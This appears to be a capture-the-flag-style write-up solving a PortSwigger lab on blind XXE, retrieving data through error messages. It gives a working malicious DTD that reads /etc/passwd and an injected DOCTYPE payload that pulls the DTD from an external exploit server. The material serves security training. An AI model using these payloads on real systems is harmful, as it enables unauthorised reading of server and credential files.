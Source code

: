 ## Lab Description:  Exploiting blind XXE to retrieve data via error messages

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8f42f344-07b3-44db-88ae-298c611e116c)

## Solution:  

Create a malicious DTD - On the exploit server create a malicious DTD file with the following contents,
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Host this malicious.dtd file in our exploit server.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ffbd75b3-3494-4646-97b0-16ea042918e1)

Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/bf215449-259b-4251-83b8-d2082ff7ba80)

You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.  

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d12f2b5a-9e85-42e9-83a2-2e2174e6b199)

Insert the following external entity definition in between the XML declaration and the stockCheck element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a54002b038b88bb80b32f35017a00c1.exploit-server.net/exploit"> %xxe;]>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/85c5f64d-7a9e-4e5d-bbc2-674247f31cac)

Hence we can view the /etc/passwd file in error message 

Lab Solved 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/3024fb56-9a5e-4907-af2f-aa0a485d2627)

